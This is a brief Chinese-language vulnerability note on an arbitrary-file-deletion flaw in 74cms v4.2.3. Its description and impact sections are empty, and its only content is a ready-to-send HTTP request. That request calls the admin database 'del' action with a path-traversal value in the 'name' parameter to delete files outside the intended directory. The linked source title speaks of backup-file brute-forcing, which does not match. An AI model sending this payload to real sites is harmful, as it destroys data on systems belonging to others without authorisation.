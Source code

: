 # 74cms v4.2.3 任意文件删除

> 原文：[http://book.iwonder.run/0day/74cms/4.2.3 备份文件爆破.html](http://book.iwonder.run/0day/74cms/4.2.3 备份文件爆破.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
GET /index.php?m=admin&c=database&a=del&name=/../../../../../ HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/index.php?m=admin&c=database&a=restore
Connection: close
Cookie: think_template=default; PHPSESSID=6d86a34ec9125b2d08ebbb7630838682; think_language=en
Upgrade-Insecure-Requests: 1 
```


